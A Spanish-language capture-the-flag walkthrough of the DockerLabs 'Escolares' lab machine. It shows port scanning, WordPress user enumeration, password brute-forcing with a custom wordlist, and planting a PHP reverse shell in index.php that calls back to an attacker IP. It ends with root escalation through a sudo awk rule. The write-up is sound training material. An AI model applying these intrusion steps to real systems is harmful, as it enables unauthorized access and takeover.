# 🧠 Informe de Pentesting – Máquina: Escolares

### 💡 Dificultad: Fácil

### 🧩 Plataforma: DockerLabs



---

# ⚙️ Despliegue de la Máquina

Antes de iniciar el proceso de reconocimiento y explotación, se procede a desplegar la máquina vulnerable proporcionada por DockerLabs.

La máquina se distribuye comprimida en formato `.zip`, conteniendo una imagen Docker y un script automatizado que facilita la ejecución del laboratorio.

```bash
unzip escolares.zip
sudo bash auto_deploy.sh escolares.tar
```

Una vez finalizado el despliegue, la máquina vulnerable quedará disponible dentro de la red Docker local.



---

# 📡 Comprobación de Conectividad

Antes de comenzar la enumeración, se verifica que el host objetivo responde correctamente dentro de la red.

```bash
ping -c1 172.17.0.2
```

## Explicación

* **ping** → Herramienta utilizada para comprobar conectividad mediante ICMP.
* **-c1** → Envía únicamente un paquete.

La respuesta permite confirmar:

* Existencia del host
* Comunicación de red funcional
* Baja latencia al ejecutarse dentro de Docker

---

# 🔍 Reconocimiento Inicial – Escaneo de Puertos

La primera fase consiste en identificar la superficie de ataque disponible.

Se realiza un escaneo completo sobre todos los puertos TCP:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

## Explicación de Parámetros

* **-p-** → Escanea los 65535 puertos TCP.
* **--open** → Muestra únicamente puertos abiertos.
* **-sS** → SYN Scan (Stealth Scan).
* **--min-rate 5000** → Incrementa velocidad de envío.
* **-vvv** → Mayor verbosidad.
* **-n** → Evita resolución DNS.
* **-Pn** → Omite descubrimiento previo.

---

## Resultado del Escaneo

Puertos encontrados:

```text
22/tcp -> SSH
80/tcp -> HTTP
```

Esto sugiere dos posibles vectores:

* Servicio web
* Acceso remoto por SSH

---

# Enumeración de Servicios

Se profundiza sobre los servicios detectados:

```bash
nmap -sCV -p80 172.17.0.2
```

## Explicación

* **-sC** → Scripts NSE básicos.
* **-sV** → Detección de versiones.
* **-p80** → Analiza únicamente HTTP.

El análisis identifica:

* Servidor Apache activo



---

# 🌐 Enumeración Web

Se accede al sitio:

```bash
http://172.17.0.2
```

Se observa una página relacionada con una escuela de ciberseguridad.

Esto suele indicar:

* Aplicaciones adicionales
* Directorios ocultos
* CMS instalados



---

# 🔎 Descubrimiento de Directorios

Se utiliza Gobuster:

```bash
gobuster dir -u http://172.17.0.2/ \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x .env,.php,.bak,.old,.zip,.txt \
-b 403,404 \
--exclude-length 10701
```



## ¿Qué es Gobuster?

Gobuster permite descubrir:

* Directorios ocultos
* Archivos expuestos
* Backups
* Consolas administrativas

## Resultado

```text
/wordpress
```

Accedemos:

```bash
http://172.17.0.2/wordpress
```



La presencia de WordPress incrementa considerablemente la superficie de ataque.

---

# 🔐 Descubrimiento del Panel Administrativo

Se continúa enumerando:

```bash
gobuster dir -u http://172.17.0.2/wordpress \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x .env,.php,.bak,.old,.zip,.txt \
-b 403,404 \
--exclude-length 10701
```

Resultado:

```text
/wp-login.php
```

Acceso:

```bash
http://172.17.0.2/wordpress/wp-login.php
```



Esto confirma la existencia del portal administrativo.

---

# 🌍 Configuración de Resolución Local

Al ingresar al panel, la aplicación redirecciona hacia un dominio.

Se agrega resolución local:

```bash
sudo nano /etc/hosts
```

Agregar:

```text
172.17.0.2 escolares.dl
```



Esto permite interactuar correctamente con el sitio.

---

# 👤 Enumeración de Usuarios WordPress

Se utiliza WPScan:

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u
```

## ¿Qué permite WPScan?

* Enumerar usuarios
* Detectar plugins
* Buscar vulnerabilidades
* Ataques de credenciales

Resultado:

```text
luisillo
```





---

# 🔓 Ataque de Credenciales

Se intenta fuerza bruta:

```bash
wpscan --url http://172.17.0.2/wordpress \
--usernames luisillo \
--passwords /usr/share/wordlists/rockyou.txt
```

No se obtiene éxito.

Se continúa enumerando y se encuentra:

```text
/profesores.html
```

Dentro existe información relacionada con el usuario.



---

# 🛠 Generación de Wordlist Personalizada

Instalamos CUPP:

```bash
sudo apt install cupp -y
```

Ejecutamos:

```bash
cupp -i
```

Se introduce la información recopilada para generar una wordlist personalizada.

Posteriormente:

```bash
wpscan --url http://172.17.0.2/wordpress \
--usernames mario \
--passwords luis.txt
```





Credenciales encontradas:

```text
luisillo : Luis1981
```

Con estas credenciales accedemos al panel administrativo.

---

# 🐚 Obtención de Ejecución Remota

Dentro de WordPress:

```text
WPManager File Manager
```

Ruta:

```text
index.php
→ clic derecho
→ Code Editor
```

Se reemplaza el contenido por una reverse shell PHP.

Repositorio utilizado:

```bash
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

Modificar:

```php
$ip = "IP_ATACANTE";
$port = 445;
```





---

# 🎧 Preparando el Listener

Máquina atacante:

```bash
sudo nc -lvnp 445
```

Ejecutamos:

```bash
http://escolares.dl/wordpress/index.php
```

Se recibe conexión.

---

# 📈 Escalada de Privilegios

Comprobamos contexto:

```bash
whoami
```

Resultado:

```text
www-data
```

---

## Mejora de Shell

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
```

Esto mejora:

* Interactividad
* Autocompletado
* Uso de sudo
* Estabilidad

---

# 🔎 Enumeración Local

Buscamos información sensible:

```bash
cd /home
ls -la
```

Resultado:

```text
secret.txt
luisillo/
ubuntu/
```

Archivo interesante:

```bash
cat secret.txt
```

Resultado:

```text
luisillopasswordsecret
```

Esto evidencia almacenamiento inseguro de credenciales.

---

# 👤 Cambio de Usuario

Intentamos autenticación:

```bash
su luisillo
```

Password:

```text
luisillopasswordsecret
```

Verificamos:

```bash
whoami
```

Resultado:

```text
luisillo
```

---

# 🔐 Enumeración Sudo

Revisamos privilegios:

```bash
sudo -l
```

Resultado:

```text
(ALL) NOPASSWD: /usr/bin/awk 'BEGIN {system("/bin/bash -p")}'
```

Interpretación:

* Puede ejecutar como root
* No requiere contraseña
* AWK ejecuta comandos arbitrarios

---

# 🚀 Escalada Final

Ejecutamos:

```bash
sudo -u root /usr/bin/awk 'BEGIN {system("/bin/bash -p")}'
```

Comprobación:

```bash
whoami
```

Resultado:

```text
root
```

Escalada completada.



---


